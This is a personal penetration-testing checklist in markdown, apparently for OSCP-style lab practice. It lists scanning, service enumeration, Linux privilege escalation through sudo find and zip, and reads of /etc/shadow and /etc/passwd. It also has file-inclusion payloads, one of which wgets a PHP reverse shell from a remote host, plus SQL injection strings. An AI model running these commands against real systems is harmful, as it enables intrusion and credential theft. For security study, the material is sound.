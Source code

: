 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
	  - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
	  - DEFAULT SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
	- ``` nmap -sU -T3 Ip-target -v ```
	- ```--source-port 100``` just to try evade, change to well-known port number
	
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8``` (Many others check -H)
  - ``` dirb http://Ip-target -r``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary
  - Try nmap ``` -–script=http-enum.nse``` (others available)
  - Check site in browser (http/https)
  - Resolve host name if necessary (etc/hosts)
  - Cookies
  - GET POST
  - Check source
	  - Directories
	  - Comments
	  - Script links
	  - Form methods
	  - Login forms
		  - Versions/names/brands etc
		  - Basic sql injection
		  -``` ‘or 1=1```
		  -```union```

- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
	- enum4linux
	- smbclient
	  -```smbclient \\\\ip\\share```
		- try to connect to them to see if they are truly alive
		- Banner grabbing even if booted
	- ```nbtscan [ip-range]```
	  - (https://highon.coffee/blog/nbtscan-cheat-sheet/)
   
- Port 22
  - Banner grabbing
	  -```ssh root@192.192.192.192```

- Port 21
  - Banner grabbing
	  -```ftp root@ip-target```
	- Try anonymous login
	- Set to **BINARY** for exe
	- PUT / DELETE
	- Check for version numbers
	- use searchsploit / google for known vulns

<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
	  - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
   	- ```>``` output to a file
   	- ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
   	- ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
		- ctrl+z backgrounds the shell on local box
		-then type:
		  - ```ssty raw -echo```
			- ```fg```
			- ```reset```
			- if size is an issue type:
			  - ```stty size``` (returns current window size)
				- ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
	- If ```find``` has sudo ```sudo find /home -exec sh -i \;```
	- ```sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"``` (https://v3ded.github.io/ctf/zico2.html)
	- if these don’t work try get kernel and distro info to look for exploits
	  - ```uname -ar```
		- ```cat /etc/issue```
		- ```cat /etc/*-release```
		- ```cat /etc/lsb-release```
		- ```cat /etc/redhat-release```
  - SUID
	  - ```find / -perm -u=s -type f 2>/dev/null ```
  - Available programs/languages on host:
	  - which Perl,python etc
	- Nc,ncat,wget,curl
	  - ```curl -o theFile http://IP:PORT/theFile```
		- ```curl ftp://ftp.domain.com --user username:password```
		  - Access FTP server (Add file to end of domain to download)
		- ```wget http://IP:PORT/theFile -O theFile```
		- ```fetch -o theFile http://IP:PORT/theFile``` (FreeBSD)
  - Password Files
	  - /etc/pwd.db
		- /etc/spwd.db
		- /etc/shadow
		- /etc/passwd

<H2>Windows</H2>

 - Priv esc
 - Still busy gathering info... Have this so far:
   - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
	 - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>

- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
  - Similar to local file inclusion while not hosted on the target
	- Rarer than LFI due to php.ini needs to configured for it
	- Requres unsanitised parameter:
	  - ```$theFile = $_REQUEST[“file”];```
		- ```include($theFile . “.php”);```
	- Now in browser:
	  - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
		- Badfile.txt:
		  - ```<?php echo shell_exec("whoami");?>```
- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
- Directory traversal
  - ```foo.php?file=../../../../../../../etc/passwd```
	- PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
	- http://127.0.0.1/fileincl/example1.php?page=expect://ls
	- PHP (POST request) ```php://input```
	- http://192.168.183.128/fileincl/example1.php?page= **php://input**
	  - input can be:
		- ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
		- In browser:
		  - http://192.192.192.192/shell.php
	- PHP ```php://filter```
	  - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
		- Must decode the output from base64
		- /proc/self/environ (If you able to write there)
- Manipulate ```User Agent``` in Burp
- phpinfo()
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
	- Uses phpinfo() to write temporary files together with fimap
- WAF
  - wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
	  - ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips
- https://payatu.com/guide-linux-privilege-escalation/ - Linux Privesc


